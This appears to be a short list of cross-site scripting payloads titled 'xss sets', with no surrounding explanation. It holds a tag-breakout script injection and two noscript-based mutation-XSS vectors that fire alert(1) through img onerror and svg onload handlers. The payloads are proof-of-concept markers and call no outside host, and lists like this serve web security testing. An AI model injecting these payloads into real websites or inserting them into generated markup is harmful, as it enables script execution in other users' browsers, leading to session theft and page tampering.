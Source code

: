 # xss sets

<script></script>
'"><script>alert(1)</script>

##<noscript><p title="</noscript><img src=x onerror=alert(1)>">
##<noscript><p title="</noscript><svg/onload=alert(1)>">
